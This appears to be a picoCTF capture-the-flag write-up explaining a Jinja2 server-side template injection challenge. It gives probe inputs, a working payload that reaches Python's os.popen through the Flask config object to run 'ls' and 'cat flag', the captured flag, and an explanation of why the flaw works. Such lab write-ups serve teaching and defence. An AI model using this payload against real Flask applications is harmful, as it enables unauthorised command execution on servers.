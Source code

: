 ## 👉 Challenge Overview:

**● Category: Web Exploitation**\
**● Difficulty: Easy**\
**● Vulnerability: Server-Side Template Injection (SSTI)**

## 🔎 Initial Reconnaissance:
When you visit the website, you see:

● Title: "Home"\
● Message: "I built a cool website that lets you announce whatever you want!*"\
● Input field asking: "What do you want to announce:"\
● Note at bottom: "*Announcements may only reach yourself"

This immediately suggests the input is being reflected back to you, making it a prime candidate for template injection.

## 👉 Step 1: Confirming SSTI Vulnerability
First, test with basic math expression:\
● Input: {{7*7}}\
● Output: 49 (vulnerable)\
So the application is processing template syntax.

## 👉 Step 2: Identifying the Template Engine
Since this syntax {{}} works, it's likely using Jinja2 (Python/Flask).\
● Input: {{7*'7'}}\
● Output: 7777777  # Confirms Jinja2

## 🚀 Step 3: Exploitation - Directory Listing
● Input: {{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}\
● Output: __pycache__ app.py flag requirements.txt

## 🚩 Flag:
● Input: {{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}\
● Output: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}

## ⛓️‍💥 Breaking down this payload:

● config - Flask configuration object. (available in Jinja2 context)\
● .__class__ - Gets the class of config object.\
● .__init__ - Access the initializer method.\
● .__globals__ - Access global namespace.\
● ['os'] - Get the os module from globals.\
● .popen('ls') - Execute the 'ls' command.\
● .read() - Read the command output.

## 🤔 Why This Works:
The vulnerability exists because:

● User input is directly passed to render_template_string() without sanitization.\
● No sandboxing is implemented.\
● Jinja2 allows access to Python objects through its syntax.
